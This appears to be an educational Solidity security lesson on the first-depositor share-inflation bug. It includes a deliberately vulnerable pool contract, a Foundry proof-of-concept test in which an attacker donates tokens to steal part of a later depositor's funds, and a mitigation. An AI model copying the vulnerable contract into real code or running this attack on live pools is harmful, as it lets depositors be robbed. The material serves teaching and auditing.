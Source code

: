 # First deposit bug

**Name:** First deposit bug

**Description:** First pool depositor can be front-run and have part of their deposit stolen In this case, we can control the variable "_supplied." By depositing a small amount of loan tokens to obtain pool tokens,we can front-run other depositors' transactions and inflate the price of pool tokens through a substantial "donation." Consequently, the attacker can withdraw a greater quantity of loan tokens than they initially possessed.

This calculation issue arises because, in Solidity, if the pool token value for a user becomes less than 1, it is essentially rounded down to 0.

**Mitigation:**

Consider minting a minimal amount of pool tokens during the first deposit and sending them to zero address, this increases the cost of the attack. Uniswap V2 solved this problem by sending the first 1000 LP tokens to the zero address. The same can be done in this case i.e. when totalSupply() == 0, send the first min liquidity LP tokens to the zero address to enable share dilution.

**REF:**

https://defihacklabs.substack.com/p/solidity-security-lesson-2-first

https://github.com/sherlock-audit/2023-02-surge-judging/issues/1

https://github.com/transmissions11/solmate/issues/178

**Contract:**

```jsx
contract MyToken is ERC20, Ownable {
    constructor() ERC20("MyToken", "MTK") {
        _mint(msg.sender, 10000 * 10 ** decimals());
    }

    function mint(address to, uint256 amount) public onlyOwner {
        _mint(to, amount);
    }
}

contract SimplePool {
    IERC20 public loanToken;
    uint public totalShares;

    mapping(address => uint) public balanceOf;

    constructor(address _loanToken) {
        loanToken = IERC20(_loanToken);
    }

    function deposit(uint amount) external {
        require(amount > 0, "Amount must be greater than zero");

        uint _shares;
        if (totalShares == 0) {
            _shares = amount;
        } else {
            _shares = tokenToShares(
                amount,
                loanToken.balanceOf(address(this)),
                totalShares,
                false
            );
        }

        require(
            loanToken.transferFrom(msg.sender, address(this), amount),
            "TransferFrom failed"
        );
        balanceOf[msg.sender] += _shares;
        totalShares += _shares;
    }

    function tokenToShares(
        uint _tokenAmount,
        uint _supplied,
        uint _sharesTotalSupply,
        bool roundUpCheck
    ) internal pure returns (uint) {
        if (_supplied == 0) return _tokenAmount;
        uint shares = (_tokenAmount * _sharesTotalSupply) / _supplied;
        if (
            roundUpCheck &&
            shares * _supplied < _tokenAmount * _sharesTotalSupply
        ) shares++;
        return shares;
    }

    function withdraw(uint shares) external {
        require(shares > 0, "Shares must be greater than zero");
        require(balanceOf[msg.sender] >= shares, "Insufficient balance");

        uint tokenAmount = (shares * loanToken.balanceOf(address(this))) /
            totalShares;

        balanceOf[msg.sender] -= shares;
        totalShares -= shares;

        require(loanToken.transfer(msg.sender, tokenAmount), "Transfer failed");
    }
}
```

***\*How to Test:\****

forge test --contracts src/test/**first-deposit.sol**-vvvv

```jsx
// Function to test the first deposit process
    function testFirstDeposit() public {
        // Alice's address is set as the first address in the virtual machine
        address alice = vm.addr(1);
        
        // Bob's address is set as the second address in the virtual machine
        address bob = vm.addr(2);
        
        // Transfers 1 Ether plus 1 wei to Alice's account from the MyTokenContract
        MyTokenContract.transfer(alice, 1 ether + 1);
        
        // Transfers 2 Ether to Bob's account from the MyTokenContract
        MyTokenContract.transfer(bob, 2 ether);

        // Initiates a "prank" on Alice's account in the virtual machine
        vm.startPrank(alice);
        
        // Alice approves the SimplePoolContract to spend 1 wei of her tokens
        MyTokenContract.approve(address(SimplePoolContract), 1);
        
        // Alice deposits 1 wei into the SimplePoolContract, receiving 1 pool token in return
        SimplePoolContract.deposit(1);

        // Alice transfers 1 Ether to the SimplePoolContract, which inflates the price of the pool tokens
        MyTokenContract.transfer(address(SimplePoolContract), 1 ether);

        // Stops the prank on Alice's account
        vm.stopPrank();
        
        // Initiates a prank on Bob's account
        vm.startPrank(bob);
        
        // Bob approves the SimplePoolContract to spend 2 Ether of his tokens
        MyTokenContract.approve(address(SimplePoolContract), 2 ether);
        
        // Bob deposits 2 Ether into the SimplePoolContract, but due to the inflated price, he only receives 1 pool token
        SimplePoolContract.deposit(2 ether);
        
        // Stops the prank on Bob's account
        vm.stopPrank();
        
        // Initiates a prank on Alice's account
        vm.startPrank(alice);

        // Gets the balance of the SimplePoolContract in MyTokenContract
        MyTokenContract.balanceOf(address(SimplePoolContract));

        // Alice withdraws 1 pool token and gets 1.5 Ether, thus making a profit
        SimplePoolContract.withdraw(1);
        
        // Asserts that Alice's balance should now be 1.5 Ether. If it's not, it throws an error
        assertEq(MyTokenContract.balanceOf(alice), 1.5 ether);
        
        // Logs Alice's balance in the console
        console.log("Alice balance", MyTokenContract.balanceOf(alice));
    }
```

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fbf5edaeb-708c-433d-b87f-9fd9a16b7633%2FUntitled.png?table=block&id=9f907b3b-45de-448e-ae5b-a3c771d9743f&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
